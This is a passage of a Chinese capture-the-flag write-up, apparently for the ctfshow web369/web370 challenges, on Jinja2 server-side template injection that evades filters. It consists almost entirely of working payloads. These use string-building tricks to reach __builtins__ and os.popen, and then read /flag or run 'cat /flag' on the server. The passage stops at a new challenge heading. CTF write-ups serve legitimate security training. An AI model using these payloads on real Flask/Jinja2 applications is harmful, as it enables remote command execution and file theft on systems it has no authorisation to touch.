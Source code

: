 ```
//构造__getitem__
{% set ge=(a~a~dict(getitem=a)|join~a~a)%}

//构造__builtins__
{% set bu=(a~a~dict(builtins=a)|join~a~a)|join()%}

//【构造】q.__init__.__globals__.__getitem__.__builtins__
{% set x=(q|attr(in)|attr(gl)|attr(ge))(bu)%}

//构造chr函数
{% set chr=x.chr%}

// 构造/flag
{% set f=chr(47)~(dict(flag=a)|join)%}

//读取文件/flag
{% print(x.open(f).read())%}
```

#### payload2：执行命令`cat /flag`

相当于`lipsum.__globals__['__builtins__'].open('/flag').read()`

```
?name={% print (lipsum|attr(
(config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(6).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(2).lower()~(config|string|list).pop(33).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(42).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()
))
.get(
(config|string|list).pop(2).lower()~(config|string|list).pop(42).lower()
)
.popen(
(config|string|list).pop(1).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(23).lower()~(config|string|list).pop(7).lower()~(config|string|list).pop(279).lower()~(config|string|list).pop(4).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(6).lower()
).read() %}
```

#### payload3：执行命令`cat /flag`

```
//构造下划线_
?name={%set%20xiahua=(lipsum|select|string|list).pop(24)%}

{%set gb=(xiahua,xiahua,dict(glo=a,bals=a)|join,xiahua,xiahua)|join%}
{%set gm=(xiahua,xiahua,dict(ge=a,titem=a)|join,xiahua,xiahua)|join%}
{%set bl=(xiahua,xiahua,dict(builtins=a)|join,xiahua,xiahua)|join%}
{%set chcr=(lipsum|attr(gb)|attr(gm)(bl)).chr%}
{%set oo=dict(o=a,s=a)|join%}
{%set pp=dict(po=a,pen=a)|join%}
{%set space=chcr(32)%}
{%set xiegang=chcr(47)%}
{%set f1ag=dict(fl=a,ag=a)|join%}
{%set shell=(dict(cat=a)|join,space,xiegang,f1ag)|join%}
{%print lipsum|attr(gb)|attr(gm)(oo)|attr(pp)(shell)|attr(dict(re=a,ad=a)|join)()%}
```

### [web370]过滤''、""、[、args、_、os、{{、request、数字

以web369的payload进行修改：

```
```